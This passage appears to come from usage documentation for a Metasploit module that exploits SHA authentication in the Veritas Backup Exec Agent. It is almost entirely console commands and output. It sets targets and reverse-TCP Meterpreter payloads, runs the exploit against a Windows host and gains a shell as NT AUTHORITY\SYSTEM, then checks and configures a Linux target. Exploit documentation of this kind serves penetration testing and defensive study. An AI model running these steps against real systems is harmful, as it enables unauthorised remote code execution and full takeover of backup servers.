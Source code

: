 ```

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   172.16.180.141   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    10000            yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.180.248   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf6 exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.180.248:4444 
[*] 172.16.180.141:10000 - Exploiting ...
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Enabling TLS for NDMP connection
[*] 172.16.180.141:10000 - Passing SHA authentication
[*] 172.16.180.141:10000 - Uploading payload with NDMP_FILE_WRITE packet
[*] Sending stage (175686 bytes) to 172.16.180.141
[*] Meterpreter session 2 opened (172.16.180.248:4444 -> 172.16.180.141:49630) at 2022-09-12 01:44:44 +0300

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

### Linux; Backup Exec 16.0 (Backup Exec Remote Agent, revision 9.2)
```
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > use exploit/multi/veritas/beagent_sha_auth_rce
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set RHOSTS 172.16.180.136
RHOSTS => 172.16.180.136
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > check

[*] 172.16.180.136:10000 - Checking vulnerability
[*] 172.16.180.136:10000 - Connecting to BE Agent service
[*] 172.16.180.136:10000 - Getting supported authentication types
Supported authentication by BE agent: BEWS2 (190), SHA (5)
BE agent revision: 9.2
[*] 172.16.180.136:10000 - The target appears to be vulnerable. SHA authentication is enabled
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set TARGET Linux
TARGET => Linux
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set LHOST 172.16.180.248
LHOST => 172.16.180.248
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set INTERPRETER /bin/bash
INTERPRETER => /bin/bash
```